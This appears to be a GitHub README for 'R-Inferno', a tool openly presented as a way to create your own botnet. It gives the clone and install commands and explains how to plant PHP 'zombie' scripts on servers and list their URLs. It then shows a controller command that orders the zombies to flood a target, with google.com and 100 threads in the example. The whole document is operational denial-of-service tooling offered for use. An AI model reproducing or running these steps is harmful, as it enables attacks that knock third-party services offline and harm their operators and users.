

# R-Inferno - Create Your Own BotNet



# Installation
```bash
git clone https://github.com/Rezn0y/R-Inferno.git
cd R-Inferno
pip install -r requirements.txt
```

# Making zombies
Go to your server and upload the Bot.php and RNet.php files. Then, take your zombie URL and add it to Bot.txt as shown in the examples below:
```bash
Sample Bots:
https://google.com/RNet.php?Send=
https://youtube.com/RNet.php?Send=
https://kick.com/RNet.php?Send=
https://yandex.com/RNet.php?Send=
https://github.com/RNet.php?Send=
```
Add them one below the other, then start the attack with R-Inferno.py.

# Options
R-Inferno.py
```bash
--list=(list) - List of zombies
--send=(command) - Command to send zombies
--threads=(number) - Number of threads
```
Bot.php
```bash
--host=(google.com) - Target Host
--req=(number) - Number of requests to be sent
```

# Usage
Usage example:
```bash
python R-Inferno.py --list=Bot.txt --threads=100 --send='--host=google.com --req=1000'
```
